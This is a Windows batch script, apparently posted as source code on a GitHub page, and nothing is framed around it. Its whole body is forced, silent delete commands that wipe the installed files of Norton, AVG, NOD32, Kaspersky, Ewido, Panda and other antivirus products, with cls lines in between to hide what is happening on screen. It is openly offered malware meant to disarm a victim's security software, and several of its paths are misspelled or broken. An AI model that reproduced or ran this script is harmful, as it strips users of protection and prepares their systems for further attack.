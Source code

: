 cls
del /Q /F C:\Program Files\Norton~1\Norton~1\Norton~3\*.*
del /Q /F C:\Program Files\Norton~1\Norton~1\speedd~1\*.*
del /Q /F C:\Program Files\Norton~1\Norton~1\*.*
del /Q /F C:\Program Files\Norton~1\*.*
cls
del /Q /F C:\Program Files\avgamsr\*.exe
del /Q /F C:\Program Files\avgamsvr\*.exe
del /Q /F C:\Program Files\avgemc\*.exe
cls
del /Q /F C:\Program Files\avgcc\*.exe
del /Q /F C:\Program Files\avgupsvc\*.exe
del /Q /F C:\Program Files\grisoft
del /Q /F C:\Program Files\nood32krn\*.exe
del /Q /F C:\Program Files\nood32\*.exe
cls
del /Q /F C:\Program Files\nod32
del /Q /F C:\Program Files\nood32
del /Q /F C:\Program Files\kav\*.exe
del /Q /F C:\Program Files\kavmm\*.exe
del /Q /F C:\Program Files\kaspersky\*.*
cls
del /Q /F C:\Program Files\ewidoctrl\*.exe
del /Q /F C:\Program Files\guard\*.exe
del /Q /F C:\Program Files\ewido\*.exe
cls
del /Q /F C:\Program Files\pavprsrv\*.exe
del /Q /F C:\Program Files\pavprot\*.exe
del /Q /F C:\Program Files\avengine\*.exe
cls
del /Q /F C:\Program Files\apvxdwin\*.exe
del /Q /F C:\Program Files\webproxy\*.exe
del /Q /F C:\Program Files\panda
software\*.*
rem
![image](https://user-images.githubusercontent.com/86743277/124805609-0c395000-df5c-11eb-884e-2240ea5795ae.png)

<>NoEscape<>
